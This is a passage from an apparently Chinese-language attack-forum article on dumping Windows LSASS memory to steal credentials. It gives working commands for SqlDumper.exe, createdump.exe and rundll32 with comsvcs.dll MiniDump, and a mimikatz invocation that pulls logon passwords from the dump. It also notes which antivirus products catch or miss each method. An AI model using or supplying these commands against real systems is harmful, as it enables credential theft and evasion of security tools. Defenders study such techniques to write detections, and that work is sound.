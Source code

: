 ```php
C:\Program Files\Microsoft SQL Server\100\Shared\SqlDumper.exe

C:\Program Files\Microsoft Analysis Services\AS OLEDB\10\SQLDumper.exe

C:\Program Files (x86)\Microsoft SQL Server\100\Shared\SqlDumper.exe
```

SQLDumper.exe包含在Microsoft SQL和Office中，可生成完整转储文件。

```php
tasklist /svc | findstr lsass.exe  查看lsass.exe 的PID号
Sqldumper.exe ProcessID 0 0x01100  导出mdmp文件
```

再本地解密即可需要使用相同版本操作系统。

```php
mimikatz.exe "sekurlsa::minidump SQLDmpr0001.mdmp" "sekurlsa::logonPasswords full" exit
```

被360查杀，火绒没有检测  
![](https://shs3.b.qianxin.com/attack_forum/attach-3dea37cad4e202ecad55f.png)

### createdump.exe

随着.NET5出现的，本身是个native binary.虽然有签名同样遭到AV查杀  
![](https://shs3.b.qianxin.com/attack_forum/attach-3dea37cad4e202ecad55f.png)

```php
createdump.exe -u -f lsass.dmp lsass[PID]
```

同样会被360查杀

### comsvcs.dll

comsvcs.dll主要是提供COM+ Services服务。每个Windows系统中都可以找到该文件，可以使用Rundll32执行其导出函数MiniDump实现进程的完全转储。

该文件是一个白名单文件，我们主要是利用了Comsvsc.dll中的导出函数APIMiniDump来实现转储lsass.exe的目的，注意同样是需要管理员权限。因为需要开启SeDebugPrivilege权限。而在cmd中此权限是默认禁用的，powershell是默认启用的。  
`该文件位于C:\windows\system32\comsvcs.dll`  
![](https://shs3.b.qianxin.com/attack_forum/attach-3dea37cad4e202ecad55f.png)

可以这样使用如下方式来调用MiniDump实现转储lsass.exe进程:

```php
powershell C:\Windows\System32\rundll32.exe C:\windows\System32\comsvcs.dll, MiniDump (Get-Process lsass).id $env:TEMP\lsass-comsvcs.dmp full
```

360同样查杀,这种直接通过调用`APIMiniDump`来dump内存的行为还是太过敏感，不稍微修改很容易就被查杀。  
![](https://shs3.b.qianxin.com/attack_forum/attach-3dea37cad4e202ecad55f.png)

其它工具
----
